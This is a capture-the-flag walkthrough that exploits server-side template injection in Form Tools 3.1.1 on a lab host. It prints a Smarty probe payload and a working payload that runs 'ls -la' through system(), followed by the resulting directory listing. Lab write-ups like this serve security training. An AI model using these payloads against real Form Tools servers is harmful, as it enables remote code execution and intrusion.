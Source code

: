 ### Challenge

Another web app is running on [http://ssti.thm:8080/](http://ssti.thm:8080/). Can you achieve RCE and read the content of the hidden text file in the directory using SSTI?  
**Login credentials:**

- **Username**: admin
- **Password**: admin

Let's go to the site:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180622.png)

As seen, we are dealing with something called `Form tools 3.1.1`, let's search any exploit regarding that version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180702.png)

We got `SSTI`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180725.png)

So, the `SSTI` is on the `Group Name` field on the add forms section, let's try:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180844.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180916.png)

Now, the vulnerability appears on the `View Group` functionality, since this is written on `php`, we can think that the template engine is `Smarty`, let's try a test payload:

```
{;}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505181159.png)

If we update:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505181142.png)

There we go, it is indeed `smarty`, let's achieve `rce`:

```
{system("ls -la /var/www/html/")}
```

```
total 100drwxrwxr-x 12     1000     1000  4096 May 19  2024 .drwxr-xr-x  1 root     root      4096 Mar 17  2022 ..-rw-r--r--  1     1000     1000  6148 Feb 27  2023 .DS_Store-rw-rw-r--  1     1000     1000   176 Feb 27  2023 .gitattributes-rw-rw-r--  1     1000     1000   218 Feb 27  2023 .gitignore-rw-rw-r--  1 www-data www-data    18 May 19  2024 105e15924c1e41bf53ea64afa0fa72b2.txt-rw-rw-r--  1 www-data www-data 15145 Feb 27  2023 LICENSE.txtdrwxrwxr-x  8 www-data www-data  4096 Feb 27  2023 admindrwxrwxrwx  2 www-data www-data  4096 May  5 23:05 cachedrwxrwxr-x  4 www-data www-data  4096 Feb 27  2023 clients-rw-rw-r--  1 www-data www-data   705 Feb 27  2023 error.php-rw-rw-r--  1 www-data www-data  1457 Feb 27  2023 forget_password.phpdrwxrwxr-x 14 www-data www-data  4096 May 19  2024 global-rw-rw-r--  1 www-data www-data  2209 Feb 27  2023 index.phpdrwxrwxr-x  2 www-data www-data  4096 Feb 27  2023 installdrwxrwxr-x 10 www-data www-data  4096 Feb 27  2023 modules-rw-rw-r--  1 www-data www-data  1659 Feb 27  2023 process.phpdrwxrwxr-x  2 www-data www-data  4096 Feb 27  2023 reactdrwxrwxr-x  5 www-data www-data  4096 Feb 27  2023 themesdrwxrwxrwx  2 www-data www-data  4096 Feb 27  2023 uploaddrwxrwxr-x  7 www-data www-data  4096 Feb 27  2023 vendordrwxrwxr-x  7 www-data www-data  4096 Feb 27  2023 vendor
```
